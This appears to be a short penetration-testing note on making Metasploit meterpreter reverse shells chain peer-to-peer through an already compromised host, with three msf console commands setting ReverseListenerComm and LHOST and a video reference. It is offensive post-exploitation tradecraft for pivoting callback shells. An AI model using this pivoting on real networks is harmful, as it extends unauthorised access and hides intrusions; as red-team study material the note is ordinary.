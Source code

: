 # P2P Callback Shells

Make the meterpreter connections act as p2p (peer-to-peer) without the need of SMB pipe meterpreter payloads even if it's not windows at all. ReverseListenerComm will tunnel our meterpreter sessions

```
msf > set ReverseListenerComm <session_id>

msf > set LHOST <compromised_target_IP>

msf > run
```

---
## References

- [Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)